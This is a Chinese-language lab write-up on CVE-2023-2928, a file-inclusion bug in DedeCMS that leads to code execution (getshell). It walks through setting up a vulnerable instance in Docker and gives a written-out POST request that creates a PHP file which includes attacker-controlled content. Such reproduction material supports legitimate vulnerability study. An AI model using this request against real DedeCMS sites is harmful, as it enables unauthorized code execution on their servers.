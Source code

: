 # CVE-2023-2928 DedeCMS 文件包含漏洞getshell 

DedeCMS（也称为织梦CMS）是一款基于PHP+MySQL的开源内容管理系统。

在 DedeCMS 5.7.106 及之前的版本中发现一个漏洞。它已被宣布为关键。受此漏洞影响的是未知功能的文件uploads/dede/article_allowurl_edit.php。对参数 allurls 的操作会导致代码注入。攻击可以远程发起。

官网地址https://www.dedecms.com/

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/137467939
- https://nvd.nist.gov/vuln/detail/CVE-2023-2928



## 漏洞环境



执行如下命令启动一个DedeCms-v5.7.112-web服务器：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:80/`跳转到DedeCms安装向导页面

![](https://github.com/Shelter1234/VulneraLab/raw/main/DedeCMS/CVE-2024-3148/1.png)

点击继续安装

[![image-20240407141203597](https://github.com/Shelter1234/VulneraLab/raw/main/DedeCMS/CVE-2024-3148/2.png)](https://github.com/Shelter1234/VulneraLab/blob/main/DedeCMS/CVE-2024-3148/2.png)

安装完成

[![image-20240407141314706](https://github.com/Shelter1234/VulneraLab/raw/main/DedeCMS/CVE-2024-3148/3.png)](https://github.com/Shelter1234/VulneraLab/blob/main/DedeCMS/CVE-2024-3148/3.png)

## 漏洞复现

使用账号密码登录网站后台,获取后台cookie

[![image-20240407141455435](https://github.com/Shelter1234/VulneraLab/raw/main/DedeCMS/CVE-2024-3148/4.png)](https://github.com/Shelter1234/VulneraLab/blob/main/DedeCMS/CVE-2024-3148/4.png)

访问article_allowurl_edit.php页面 保存超链接

![](https://img-blog.csdnimg.cn/direct/e27cfa8a262e4738a282a6c9d6857492.png)

访问file_manage_control.php 利用文件包含构造1.php

![img](https://img-blog.csdnimg.cn/direct/1f5b1019f1dc437cb49e1aef0b194230.png)

```
POST /dede/file_manage_control.php HTTP/1.1

fmdo=edit&backurl=&token=&activepath=&filename=1.php&str=<?php Include_once("./data/admin/allowurl.txt"); ?>&B1=++%E4%BF%9D+%E5%AD%98++
```

![](https://img-blog.csdnimg.cn/direct/4a95fbf013b2490fb17225d8d07d8263.png)

访问1.php

![](https://img-blog.csdnimg.cn/direct/d4443bff0b1f411aa725656f9c83fe57.png)